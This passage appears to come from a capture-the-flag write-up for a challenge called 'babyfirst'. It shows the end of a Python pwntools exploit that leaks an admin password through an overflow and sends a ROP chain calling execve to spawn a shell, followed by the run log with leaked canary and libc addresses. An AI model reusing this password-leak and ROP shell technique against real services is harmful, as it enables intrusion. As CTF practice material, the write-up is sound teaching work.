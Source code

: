 ```python
    payload += p64(addrs['poprsi'])
    payload += p64(stack + 0x10)
    payload += p64(addrs['poprdx'])
    payload += p64(0x0)
    payload += p64(addrs['poprax'])
    payload += p64(59)
    payload += p64(addrs['syscall'])
    assert len(payload) <= 128
    r.send(payload)
    
    print(repr(r.recvuntil('\n')))
    print("END==")
    r.sendline('END')
    print(r.recvuntil('\n'))
    r.interactive()

def exit():
    r.recvuntil(PROMPT)
    r.sendline(EXIT)

def leakpass():
    login('A' * 32)
    leak = play()
    leak = leak.split('A' * 32)[1].split('\nTest Version only support for admin~')[0]
    if len(leak) < 0x10:
        print("LEAK PASSWORD FAILED")
        return None
    leak = leak[:0x10]
    return leak

def main():
    raw_input("pwn?")
    password = leakpass()
    print("PASSWORD: {}".format(password.encode('hex')))
    login("admin", password)
    play(play=True)
    r.close()

if __name__ == '__main__':
    main()
```

```bash
➜  babyfirst remote=1 python exploit.py
[*] '/home/me/Desktop/tetctf/babyfirst/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to babyfirst.chung96vn.cf on port 31337: Done
pwn?
PASSWORD: ead76d78b8c95156fc838dd20e633463
STACK = 0x7ffdf4dbd4a0
CANARY = 0x2963933cecc44c00
BINLEAK = 0x55b917de2fc0
BIN BAsE = 0x55b917de2000
LIBCLEAK = 0x7fe18044cb97
LIBC BASE = 0x7fe18042b000
'AAAAAAAAAAAAAAAA\x9a\xee]\x80\xe1\x7f\n'
END==
END

[*] Switching to interactive mode
```